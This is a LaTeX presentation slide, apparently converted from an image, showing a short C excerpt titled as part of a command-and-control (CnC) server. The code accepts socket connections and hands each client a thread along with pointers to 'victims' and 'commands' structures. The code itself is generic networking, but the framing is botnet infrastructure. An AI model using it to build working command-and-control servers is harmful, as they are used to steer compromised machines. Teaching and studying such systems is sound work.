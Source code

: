 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
          if (bind(server_fd, (struct sockaddr *) &server, sizeof(server)) < 0){ return false; } // Bind to Socket
          if (listen(server_fd, NET_MAX_CLIENTS)  != 0){ return false; }                         // Listen to Socket
          while (true){
            socklen_t client_len = sizeof(client);
            net_t_client_args_t *p_net_t_client_args = malloc(sizeof(net_t_client_args_t));
            while (( client_fd = accept(server_fd,                                      // Socket File Descriptor
                                        (struct sockaddr *)&client,                     // Client SockAddr Struct
                                        (socklen_t *)&client_len))){
              pthread_t t_client;                                                       // Client Thread
              p_net_t_client_args->client_fd = client_fd;                               // Send Client File Descriptor
              p_net_t_client_args->p_victims = p_victims;                               // Pointer to Victims Struct
              p_net_t_client_args->p_commands = p_commands;                             // Pointer to Commands Struct
              pthread_attr_t attr_t_client;                                             // Create Thread Attributes
              pthread_attr_init(&attr_t_client);                                        // Initialize Attributes
              pthread_attr_setdetachstate(&attr_t_client, PTHREAD_CREATE_DETACHED);     // Set Detached Attribute
              if (pthread_create(&t_client,
                                 &attr_t_client, net_t_client, p_net_t_client_args) < 0){ // Spawn Client Thread
                return false;
              }
            }
            free(p_net_t_client_args); // Cleanup
          }
          close(client_fd);            // Close Client Socket File Descriptor
          return true;
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
